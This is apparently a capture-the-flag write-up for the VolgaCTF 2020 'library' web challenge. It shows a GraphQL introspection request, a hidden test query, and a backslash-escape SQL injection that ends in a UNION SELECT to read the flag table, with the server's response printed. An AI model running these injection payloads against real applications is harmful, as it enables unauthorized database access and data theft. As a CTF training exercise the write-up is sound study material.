 # web-library

## Description

Library
We have written a pretty useful library website where you can find all our books.

Check it out at library.q.2020.volgactf.ru!

## Solution

Address: http://library.q.2020.volgactf.ru:7781/

Аfter reviewing the application we found interesting entry point: http://library.q.2020.volgactf.ru:7781/api

It is a GraphQL API route. It means that we can retrive the GraphQL Schema and find other queries and mutations.

In order to retrieve GQL Schema, we made a schema introspection request.

```
POST /api HTTP/1.1
Host: library.q.2020.volgactf.ru:7781
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImphY2tAZGFzZi5hc2RmIiwibmFtZSI6ImphY2siLCJsb2dpbiI6ImphY2siLCJpYXQiOjE1ODU2NTcxMjAsImV4cCI6MTU4NTY2MDcyMH0.Q7faIItPOWDHjzjHG1WSuO-yjh_16qZf0k83wb5bVz8
Content-Length: 1674

{"query":"query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n        }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }","variables":{"filter":{"name":""}},"operationName":"IntrospectionQuery"}
```

And save the result in the schema.json file.

In order to create GQL Schema from JSON we use graphql-introspection-json-to-sdl tool:
```
graphql-introspection-json-to-sdl schema.json > schema.graphql
```

After it, we can retrive all Queries, Mutations and Subscriptions from GQL Schema with the `gqlg` tool.

```
gqlg --schemaFilePath ./schema.graphql --destDirPath ./gqlg --depthLimit 4
```

In the `gqlg` folder we see the query which we have not seen before. It is `testGetUsersByFilter`.

Try to execute it:

```
query testGetUsersByFilter($filter: UserFilter){
    testGetUsersByFilter(filter: $filter){
        login
        name
        email
    }
}
```

And we understand that we can retrieve all users with this query. But flag storing in other places.

After I saw database error in response when I try to find SQLi I understand the query logic and create valid SQLi example:
```
{"query":"query testGetUsersByFilter($filter: UserFilter){\n    testGetUsersByFilter(filter: $filter){\n        login\n        name\n        email\n    }\n}","variables":{"filter":{"login":"\\","name":" or 1=1 -- -"}},"operationName":"testGetUsersByFilter"}
```

Look at the `variables`: `"variables":{"filter":{"login":"\\","name":" or 1=1 -- -"}}`.

So the exists SQL query may looks like: 
```
SELECT * FROM Users Where login LIKE '...' OR name LIKE '...' .... 
```

So we escaped the second single quote and exit from the SQL string.

Like shown below:
```
SELECT * FROM Users Where login LIKE '...\' OR name LIKE ' or 1=1 -- - ' .... 
```

It means that the first string will be `...\' OR name LIKE ` and after it will stay our value from the `name` parameter.

Now we can make UNION-based SQLi and retrieve the flag. (Count columns of left side of the query with `ORDER BY` or `UNION SELECT null,...` )

Flag stored in the `flag` table and `flag` column that we could understand from INFORMATION_SCHEMA.

The result query:
```
{
  "operationName": "testGetUsersByFilter",
  "query": "query testGetUsersByFilter($filter: UserFilter){\n    testGetUsersByFilter(filter: $filter){\n        login\n        name\n        email\n    }\n}",
  "variables": {
    "filter": {
      "login": "\\",
      "name": " UNION SELECT null, null, null, null, (SELECT flag FROM flag LIMIT 1), null -- -"
    }
  }
}
```

Answer:
```
{
  "data": {
    "testGetUsersByFilter": [
      {
        "email": "ab ",
        "login": "' or name=",
        "name": "ab"
      },
      {
        "email": null,
        "login": null,
        "name": "VolgaCTF{EassY_GgraPhQl_T@@Sk_ek3k12kckgkdak}"
      }
    ]
  }
}
```
